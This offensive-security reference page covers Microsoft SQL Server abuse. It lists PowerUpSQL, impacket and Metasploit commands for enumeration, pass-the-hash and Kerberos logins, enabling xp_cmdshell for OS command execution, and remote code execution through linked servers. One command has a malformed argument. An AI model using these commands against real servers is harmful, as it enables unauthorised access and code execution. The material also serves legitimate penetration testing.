```yaml
---
label: MSSQL Abuse
---
```


# MSSQL Abuse

## MSSQL Authentication

There are two options of authentication settings possible to set in SQL Server:

1. Windows Authentication
2. Windows Authentication + SQL Server Authentication (mixed)

**SQL Server Authentication** involves setting up a classic login and password for the user's DB. During setup the default `sa` account is created and password must be set. The explicitly provided user’s credentials are validated through the information stored in the master database. It's way more limited than Windows Authentication and it's not recommended approach.

In **Windows authentication**, the user should first authenticate himself within AD domain. SQL Server authenticates users through the Windows security token. It doesn't require to provide credentials explicitly. Windows Authentication is the **default authentication method** when an SQL Server is installed.

## Enumeration

Windows (PowerUpSQL module):

```powershell
# Enumerate SQL servers in the current domain
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose

# Enumerate local SQL instances
Get-SQLInstanceLocal | Get-SQLServerInfo
```

Linux:

```bash
# Ask for SQL instances running on the target host
impacket-mssqlinstance $target_host
```

## Connection

After connecting to MSSQL Server, we are able to execute SQL Queries. This often involves the ability to execute code on the system. [Full list of further exploitation here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server).

> **NOTE**: It might be worth to check different domain credentials to verify which account has access to MSSQL Server.

Windows (PowerUpSQL module):

```powershell
# Execute SQL query using SQL Server Auth
Get-SQLQuery -Username $user -Password $password -Instance $SQL_Server_FQDN -Query "$mssql_query"

# Execute SQL query using Windows Auth
Get-SQLQuery -Instance $SQL_Server_FQDN -Query "$mssql_query"
```

Linux:

```bash
# Using SQL Server Authentication
impacket-mssqlclient $user:$password@$host

# Using Windows Auth with password
impacket-mssqlclient -windows-auth $domain/$user:$password@$host

# Using Windows Auth with NT hash
impacket-mssqlclient -windows-auth $domain/$user@$host -hashes :$nt_hash

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
impacket-mssqlclient $hostname -k -no-pass -dc-ip $dc_ip
```

## Security checks

```bash
# Perform multiple security checks (credentials required)
msfconsole
> use admin/mssql/mssql_enum
```

## Command Exection

Functions like `xp_cmdshell` are disabled in Microsoft SQL Server by default. If a user has appropriate permission, it can enable these features.

```sql
-- Reconfigure MSSQL settings
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

-- Execute command
EXECUTE xp_cmdshell 'whoami';
```

## Linked servers

Any user regardless of their privilege level is allowed to use the preconfigured database links.

Windows (PowerUpSQL module):

```powershell
# Enumerate database links
Get-SQLServerLinkCrawl -Instance $SQL_Server_FQDN -Verbose

# RCE with Windows Auth (current security contex)
Get-SQLServerLinkCrawl -Instance $SQL_Server_FQDN -Query "exec master..xp_cmdshell 'whoami'"

# RCE with SQL Server Auth
Get-SQLServerLinkCrawl -Instance $SQL_Server_FQDN -Username $username $password $password -Query "exec master..xp_cmdshell 'whoami'"


Get-SQLQuery -Instance "sql.domain.io,1433" -Query "select * from openquery(""sql2.domain.io"", 'select * from information_schema.tables')"
```

Linux:

```bash
msfconsole
> use exploit/windows/mssql/mssql_linkcrawler
> set rhost $SQL_Server_IP
> set username $username
> set password $password
```

{/*TODO: SVC hash stealing*/}

## References

- [Netspi, *SQL Server – Link… Link… Link… and Shell: How to Hack Database Links in SQL Server!*](https://www.netspi.com/blog/technical/network-penetration-testing/how-to-hack-database-links-in-sql-server/)
- [Quest, *SQL Server authentication vs. Windows authentication: Which to use and when*](https://blog.quest.com/sql-server-authentication-vs-windows-authentication-which-to-use-and-when/)
